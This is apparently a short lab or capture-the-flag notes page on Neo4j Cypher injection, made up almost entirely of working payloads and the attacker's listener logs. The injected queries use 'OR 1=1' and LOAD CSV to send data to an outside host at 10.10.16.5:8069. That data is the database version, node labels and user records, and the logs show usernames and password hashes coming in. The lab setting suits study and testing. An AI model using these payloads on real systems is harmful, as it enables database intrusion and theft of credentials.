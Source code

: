 # Neo4j injection syntax

```' OR 1=1 WITH 1 as a  CALL dbms.components() YIELD name LOAD CSV FROM 'http://10.10.16.5:8069/?name='   name as l RETURN 0 as _0 // ```

```10.10.11.210 - - [26/Apr/2023 13:57:50] "GET /?name=Neo4j Kernel HTTP/1.1" 400 -```

```' OR 1=1 WITH 1 as a  CALL dbms.components() YIELD name, versions, edition UNWIND versions as version LOAD CSV FROM 'http://10.10.16.5:8069/?version='   version   '&name='   name   '&edition='   edition as l RETURN 0 as _0 // ```

```10.10.11.210 - - [26/Apr/2023 14:20:31] "GET /?version=5.6.0&name=Neo4j Kernel&edition=community HTTP/1.1" 400 -```

```' OR 1=1 WITH 1 as a  CALL db.labels() YIELD label LOAD CSV FROM 'http://10.10.16.5:8069/?label='   label as l RETURN 0 as _0 // ```

```
10.10.11.210 - - [26/Apr/2023 14:25:43] "GET /?label=user HTTP/1.1" 200 -
10.10.11.210 - - [26/Apr/2023 14:25:43] "GET /?label=employee HTTP/1.1" 200 -
```

```' OR 1=1 WITH 1 as a  MATCH (u:user) UNWIND keys(u) as p LOAD CSV FROM 'http://10.10.16.5:8069/?keys='   toString(u[p]) as l RETURN 0 as _0 // ```
```
10.10.11.210 - - [26/Apr/2023 14:27:05] "GET /?keys=8c6976e5b5410415bde908bd4dee15dfb167a9c873fc4bb8a81f6f2ab448a918 HTTP/1.1" 200 -
10.10.11.210 - - [26/Apr/2023 14:27:06] "GET /?keys=admin HTTP/1.1" 200 -
10.10.11.210 - - [26/Apr/2023 14:27:06] "GET /?keys=a85e870c05825afeac63215d5e845aa7f3088cd15359ea88fa4061c6411c55f6 HTTP/1.1" 200 -
10.10.11.210 - - [26/Apr/2023 14:27:07] "GET /?keys=john HTTP/1.1" 200 -
```
